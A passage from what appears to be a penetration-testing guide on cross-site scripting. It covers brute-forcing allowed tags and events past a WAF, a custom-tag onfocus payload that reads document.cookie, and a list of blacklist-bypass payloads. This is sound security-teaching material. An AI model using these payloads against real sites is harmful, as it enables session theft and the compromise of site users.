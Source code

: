 But, if tags/attributes black/whitelisting is being used, you will need to **brute-force which tags** you can create.\
Once you have **located which tags are allowed**, you would need to **brute-force attributes/events** inside the found valid tags to see how you can attack the context.

### Tags/Events brute-force

Go to [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click on _**Copy tags to clipboard**_. Then, send all of them using Burp intruder and check if any tags wasn't discovered as malicious by the WAF. Once you have discovered which tags you can use, you can **brute force all the events** using the valid tags (in the same web page click on _**Copy events to clipboard**_ and follow the same procedure as before).

### Custom tags

If you didn't find any valid HTML tag, you could try to **create a custom tag** and and execute JS code with the `onfocus` attribute. In the XSS request, you need to end the URL with `#` to make the page **focus on that object** and **execute** the code:

```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

### Blacklist Bypasses

If some kind of blacklist is being used you could try to bypass it with some silly tricks:

```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>
```
